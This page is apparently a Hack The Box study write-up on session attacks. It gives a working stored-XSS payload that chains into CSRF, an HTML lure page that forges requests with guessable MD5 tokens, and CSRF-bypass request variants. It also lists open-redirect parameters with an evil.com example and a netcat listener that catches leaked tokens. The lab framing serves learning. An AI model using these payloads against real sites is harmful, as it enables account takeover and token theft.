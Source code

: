 # 🇿🇲 Session Attacks 2

## XSS & CSRF Chaining

Her are some stuff we must know about this web app:

{% hint style="info" %}


* The application features same origin/same site protections as anti-CSRF measures (through a server configuration - you won't be able to actually spot it)
* The application's _Country_ field is vulnerable to stored XSS attacks
{% endhint %}

After creating our account, we run burp and see the "Change visibility" functionality ->

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And in burp we see this:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We have to craft a payload and specify in the _Country_ field of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
//This action will be related to the handleResponse function
req.open('get','/app/change-visibility',true);
//three arguments. get which is the request method, the targeted path /app/change-visibility and then true which will continue the execution.
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
//defines a variable called token, which gets the value of responseText from the page we specified earlier in our request. /name="csrf" type="hidden" value="(\w+)"/)[1]; looks for a hidden input field called csrf and \w+ matches one or more alphanumeric characters.
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
// Here we change the method from GET to POST. The first request was to move us to the targeted page and the second request was to perform the wanted action.
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

Here is how you can identify the name of a hidden value or check if it is actually "CSRF".

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we get no result we can look through the HTML for some code that's looks like a token

Now to test out the payload, we submit it and click save

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we get a new account simulating the victim, we log in and go in a new tab to look for [http://minilab.htb.net/profile?email=ela.stienen@example.com](http://minilab.htb.net/profile?email=ela.stienen@example.com)

Before visiting the link, the target was private

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and if we go back to our profile after visiting the payload webpage, we should see that his profile became "public"

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting Weak CSRF Tokens

First we create our account, then on our profile we press _Change Visibility_ and then _Make Public_.

then in the network requests we spot this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that the token is md5 ->

```shell-session
ElFelixi0@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

Now we craft our malicious page ->

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

In order to have our malicious page to have MD5-hashing functionality, save the below as `md5.min.js` and place it in the directory

```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

Now we host our page and make our victim (which his account profile is not public) click on `http://<VPN/TUN Adapter IP>:1337/press_start_2_win.html`.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And if the target presses "Start!". We can  notice that the profile will become public!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Additional CSRF Protection Bypasses

You can try making the CSRF token a null value (empty), for example:

`CSRF-Token:`

Setting the CSRF token value to the same length as the original CSRF token but with a different/random value:

Real:

`CSRF-Token: 9cfffd9e8e78bd68975e295d1b3d3331`

Fake:

`CSRF-Token: 9cfffl3dj3837dfkj3j387fjcxmfjfd3`

Create two accounts and log into the first account. Generate a request and capture the CSRF token. Copy the token's value, for example, `CSRF-Token=9cfffd9e8e78bd68975e295d1b3d3331`.

Log into the second account and change the value of _CSRF-Token_ to `9cfffd9e8e78bd68975e295d1b3d3331` while issuing the same (or a different) request. If the request is issued successfully, we can successfully execute CSRF attacks

we can try changing the request method. From _POST_ to _GET:_

```http
POST /change_password
POST body:
new_password=pwned&confirm_new=pwned
```

```http
GET /change_password?new_password=pwned&confirm_new=pwned
```

Not sending a token works fairly often because of the following common application logic mistake.

Normal:

```http
POST /change_password
POST body:
new_password=qwerty&csrf_token=9cfffd9e8e78bd68975e295d1b3d3331
```

Let's try:

```http
POST /change_password
POST body:
new_password=qwerty
## or
new_password=qwerty&csrf_token=
```

## Open Redirect

An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows:&#x20;

`trusted.site/index.php?url=https://evil.com`

`Here are some`&#x20;

URL parameters to look for when bug hunting, we'll often see them in login pages. Example: `/login.php?redirect=dashboard`

* ?url=
* ?link=
* ?redirect=
* ?redirecturl=
* ?redirect\_uri=
* ?return=
* ?return\_to=
* ?returnurl=
* ?go=
* ?goto=
* ?exit=
* ?exitpage=
* ?fromurl=
* ?fromuri=
* ?redirect\_to=
* ?next=
* ?newurl=
* ?redir=

For the exercise let's say this is our URL:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect\_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's test out if we can make requests through _redirect\_uri ->_

```shell-session
ElFelixi0@htb[/htb]$ nc -lvnp 1337
```

We can change the URL we got earlier with this ->

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN>`

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

